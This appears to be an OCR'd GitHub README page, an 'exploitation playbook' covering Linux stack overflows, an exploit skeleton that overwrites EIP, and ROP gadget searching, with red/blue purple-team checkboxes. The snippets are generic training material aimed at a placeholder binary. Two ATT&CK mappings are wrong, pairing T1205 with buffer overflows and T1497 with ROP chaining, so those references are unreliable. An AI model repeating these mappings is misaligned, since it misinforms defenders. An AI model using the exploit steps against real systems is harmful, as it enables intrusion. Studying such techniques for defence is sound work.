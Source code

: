 # OS & hardware exploitation playbook

From stack overflows to kernel exploits and next-gen patch analysis

## Linux exploitation

### Basic attacks

#### Stack-based buffer overflow

MITRE: [T1205](https://attack.mitre.org/techniques/T1205/)

Tools:

```bash
# Crash a vulnerable program  
python2 -c 'print "A"*500' | ./vuln_program  
# Find EIP offset with GDB  
gdb -q ./vuln_program  
pattern create 500  
```

#### Exploit development

MITRE: [T1068](https://attack.mitre.org/techniques/T1068/)

Tools:

```python
# Python2 exploit skeleton  
from struct import pack  
buf = "A"*264 + pack("<I", 0xdeadbeef)  # EIP overwrite  
open("payload", "wb").write(buf)  
```

Purple team actions

- [x] Red: Exploit 32-bit binaries with pwntools.
- [x] Blue: Deploy PaX/Grsecurity to enforce NX/ASLR.

## Advanced Linux bypasses

### Attack paths

#### ROP Chaining (NX Bypass)

MITRE: [T1497](https://attack.mitre.org/techniques/T1497/)

Tools:

```bash
# Find gadgets with ROPgadget  
ROPgadget --binary libc.so.6 | grep "pop rdi"  
```

